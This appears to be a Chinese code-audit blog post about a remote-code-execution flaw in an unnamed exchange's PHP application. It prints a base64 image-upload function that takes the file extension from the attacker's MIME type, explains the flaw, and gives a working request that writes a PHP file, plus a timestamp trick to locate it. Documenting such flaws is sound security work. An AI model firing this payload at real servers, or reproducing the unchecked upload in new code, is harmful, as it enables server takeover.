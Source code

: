 ```yaml
---
title: "某交易所RCE"
date: 2020-10-25T17:28:10+08:00
draft: false
tags: ['交易所']
categories: ['代码审计']
---
```


# 某交易所RCE

## 漏洞文件
Application/Home/Controller/UserController.class.php




## 漏洞代码

```perl
 public function base64_image_content($base64_image_content, $path)
    {
        //匹配出图片的格式
        if (preg_match('/^(data:\s*image\/(\w+);base64,)/', $base64_image_content, $result)) {
            $type     = $result[2];
            $new_file = $path."/".date('Ymd', time())."/";
            if (!file_exists($new_file)) {
                //检查是否有该文件夹，如果没有就创建，并给予最高权限
                mkdir($new_file, 0700);
            }
            $new_file = $new_file.time().".{$type}";
            if (file_put_contents($new_file, base64_decode(str_replace($result[1], '', $base64_image_content)))) {
                //return '/'.$new_file;
                return time().'.'.$type.'';
            } else {
                return false;
            }
        } else {
            return false;
        }
    }
```


## 漏洞分析


传参 base64_image_content 和path变量，对传入的base64_image_content进行正则匹配，也就是让我们传一个base64形式的图片，和路径
如data:image/png;base64,xxx，把$result[2]的值赋给变量type。也就是/png这个的内容。生成一个以年月日命名的文件夹。生成一个时间戳的变量赋给new_file。然后对base64后的进行解码，写入文件。代码没判断传入的type头，所以可传入一个php文件




## 漏洞利用


Payload:

```perl
Pc/User/base64_image_content/?base64_image_content=data:image/php;base64,PD9waHAgcGhwaW5mbygpOw==&path=./
```


实战中发现不回显文件夹及文件名，可利用Burp发送Payload，查看返回包的时间戳，然后进行转换即可



